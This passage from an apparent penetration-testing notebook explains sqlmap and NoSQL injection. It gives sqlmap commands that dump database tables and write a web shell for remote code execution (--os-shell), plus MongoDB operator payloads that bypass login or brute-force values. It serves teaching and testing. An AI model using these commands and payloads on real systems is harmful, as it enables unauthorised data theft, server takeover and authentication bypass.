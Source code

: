 Seeing as to how complex and time-consuming SQL Injection can be, there are already pre-made tools that can be used in order to verify, enumerate and exploit the true positives of SQL Injection.

One such tool is called `sqlmap`. This tool basically helps you to verify and determine if SQL Injection can be abused, and does it for you automatically. This saves you the time of having to play hangman with the database using blind injection.&#x20;

However, I must note it is **absolutely crucial** to still know how to exploit manually. This is because, in real-life engagements, tools like sqlmap are extremely noisy and suspicious. Also, it's good to have an understanding of what's really going on when we run the tool and what it does.

```bash
sqlmap -r req.txt
# if we have a req.txt file with Burpsuite request inside

sqlmap -u <URL> --threads 10 -D <database> -T <table_name> --dump
# indicates the exact database and table we want to dump information from

sqlmap -r req.txt --os-shell
# tries to write web shell onto server and execute it for RCE on server
```

<figure><img src="../.gitbook/assets/image (250) (1).png" alt=""><figcaption><p><em>Example of Valid SQL Injection Found</em></p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (288).png" alt=""><figcaption><p><em>Example of Valid Entry Exfiltrated</em></p></figcaption></figure>

The user manual can be found here: (learn to use it yourself!)

{% embed url="https://github.com/sqlmapproject/sqlmap/wiki" %}

## NoSQL Injection

While not technically an SQL Injection, NoSQL injection is still a database manipulation tool. However, this would involve databases that do not use SQL, such as MongoDB.

NoSQL databases are a bit looser and have less constraints, as well as less checks. As such, databases like this are definitely faster performance wise, but still are vulnerable if not protected accordingly.

The exploits are based on adding an **operator:**

{% code overflow="wrap" %}
```bash
username[$ne]=1$password[$ne]=1 #<Not Equals>
username[$regex]=^adm$password[$ne]=1 #Check a <regular expression>, could be used to brute-force a parameter
username[$regex]=.{25}&pass[$ne]=1 #Use the <regex> to find the length of a value
```
{% endcode %}

This can also be used to bypass authentications:

```bash
#in URL
username[$ne]=toto&password[$ne]=toto

#in JSON
{"username": {"$ne": null}, "password": {"$ne": null} }
```
